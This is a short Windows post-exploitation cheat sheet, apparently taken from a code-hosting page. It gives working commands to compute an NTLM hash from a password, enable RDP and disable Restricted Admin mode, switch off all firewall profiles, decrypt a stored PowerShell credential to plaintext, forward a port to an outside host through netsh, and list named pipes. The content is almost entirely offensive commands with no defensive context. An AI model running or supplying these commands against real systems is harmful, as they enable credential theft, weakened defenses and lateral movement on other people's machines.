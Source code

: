 Get MD4 hash via python:
import hashlib,binascii
hash = hashlib.new('md4', "Start123!".encode('utf-16le')).digest()
print(binascii.hexlify(hash))

Enable RDP with non-default admin user:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
netsh advfirewall set allprofiles state off

Decrypt PowerShell stored credential:
(Import-Clixml C:\credential.xml).GetNetworkCredential().Password

Port forwarding using netsh:
Listen on port 8000 on the windows machine & forward all incoming connections to <ip> on port 443.
netsh advfirewall firewall add rule name="offsec" dir=in action=allow protocol=TCP localport=8000
netsh interface portproxy add v4tov4 listenport=8000 listenaddress=0.0.0.0 connectport=443 connectaddress=<ip>

List all named pipes:
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
